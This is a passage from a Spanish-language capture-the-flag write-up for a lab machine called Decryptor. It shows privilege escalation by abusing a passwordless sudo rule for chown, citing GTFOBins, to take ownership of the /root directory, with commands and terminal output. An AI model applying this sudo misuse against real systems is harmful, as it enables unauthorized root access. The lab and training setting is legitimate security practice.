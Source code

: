 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="chown">Escalando Privilegios con Binario chown</h2>

Veamos qué privilegios tiene este usuario:
```bash
chiquero@Decryptor:~$ sudo -l
Matching Defaults entries for chiquero on Decryptor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User chiquero may run the following commands on Decryptor:
    (ALL) NOPASSWD: /usr/bin/chown
```
Podemos usar el **binario chown** como **Root**.

Usando la **guía de GTFOBins**, encontramos una forma de escalar privilegios con este binario:
* <a href="https://gtfobins.github.io/gtfobins/chown/" target="_blank">GTFOBins: chown</a>

<p align="center">
<img src="/assets/images/THL-writeup-decryptor/Captura5.png">
</p>

De esta forma, podemos cambiar el dueño de cualquier archivo de la máquina que sea del **Root**, para que nuestro usuario lo pueda ver o usar.

Por ejemplo, probemos con el directorio `/root`:
```bash
chiquero@Decryptor:~$ ls /root
ls: cannot open directory '/root': Permission denied
chiquero@Decryptor:~$ LFILE=/root
chiquero@Decryptor:~$ sudo chown $(id -un):$(id -gn) $LFILE
chiquero@Decryptor:~$ ls -la /root
total 32
drwx------  4 chiquero chiquero 4096 Jun  7  2024 .
drwxr-xr-x 18 root     root     4096 May 21  2024 ..
lrwxrwxrwx  1 root     root        9 Jun  7  2024 .bash_history -> /dev/null
-rw-r--r--  1 root     root      571 Apr 10  2021 .bashrc
-rw-------  1 root     root       20 May 21  2024 .lesshst
drwxr-xr-x  3 root     root     4096 May 21  2024 .local
-rw-r--r--  1 root     root      161 Jul  9  2019 .profile
-rw-r--r--  1 root     root       30 Jun  7  2024 root.txt
drwx------  2 root     root     4096 May 21  2024 .ssh
```
Al principio, no podemos ver nada, y luego de aplicar el cambio de dueño, podemos entrar al directorio `/root`. Pero como tal, no podemos hacer nada más.

